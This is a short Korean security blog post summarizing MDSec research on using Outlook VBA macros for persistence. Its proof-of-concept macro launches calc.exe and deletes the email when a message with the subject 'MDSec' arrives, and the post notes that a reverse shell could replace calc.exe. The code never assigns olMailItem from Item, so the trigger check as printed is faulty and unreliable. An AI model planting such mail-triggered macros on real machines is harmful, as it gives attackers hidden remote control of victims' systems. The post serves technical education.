 ```yaml
---

title: "[하루한줄] Outlook Mail based Persistence access"

author: Fabu1ous

tags: [Fabu1ous, outlook, email, persistence access, windows]

categories: [1day1line]

date: 2020-11-25 18:00:00

cc: true

index_img: /img/1day1line.png
---
```




## URL

[A Fresh Outlook on Mail Based Persistence](https://www.mdsec.co.uk/2020/11/a-fresh-outlook-on-mail-based-persistence/)



## Target

Windows 10 Outlook



## Explain

Outlook은 Microsoft Office의 이메일 클라이언트로 일정 관리, 연락처 관리, 일지 등의 다양한 기능을 제공합니다. 그중 다른 Office 제품들과 마찬가지로 Outlook은 VBA(Visaul Basic for Application) 기반 매크로를 만들어 사용하는 기능이 있고, 해커는 이를 악용해 persistence access를 얻을 수 있습니다.



Persistence access란 해커가 victim에 initial access를 획득한 이후에도 지속적으로 access 할 수 있는 상태입니다. 특정 제목의 이메일이 도착하면 트리거 되는 악성 매크로를 victim에 심어놓으면 해커는 단순히 이메일을 보내는 것만으로 원격 제어할 수 있습니다.



```visual basic
Option Explicit

Private WithEvents olInboxItems As Items

Private Sub Application_Startup()
    Set olInboxItems = Session.GetDefaultFolder(olFolderInbox).Items
End Sub

Private Sub olInboxItems_ItemAdd(ByVal Item As Object)
    On Error Resume Next
    Dim olMailItem As MailItem
    If TypeOf Item Is MailItem Then
       If InStr(olMailItem.Subject, "MDSec") > 0 Then
            MsgBox "Hack The Planet"
            Shell "calc.exe"
            olMailItem.Delete
        End If
    End If
    Set Item = Nothing
    Set olMailItem = Nothing
End Sub
```

위 POC 코드는 calc.exe를 실행하는 VBA 매크로입니다. 우선 Outlook이 실행됐을 때의 수신 메일함 상태를 저장합니다. 이후에 새로운 이메일이 추가되면 그 이메일의 제목을 확인하고, 만약 그 제목이 "MDSec"이라면 calc.exe를 실행한 후 해당 이메일을 삭제합니다.



이메일의 제목뿐만 아니라 발신 주소 혹은 내용 등으로 매크로의 트리거 조건을 다양하게 설정할 수 있고, calc.exe 대신 리버스 쉘을 실행하면 해커가 원격 제어를 할 수 있게 됩니다. 
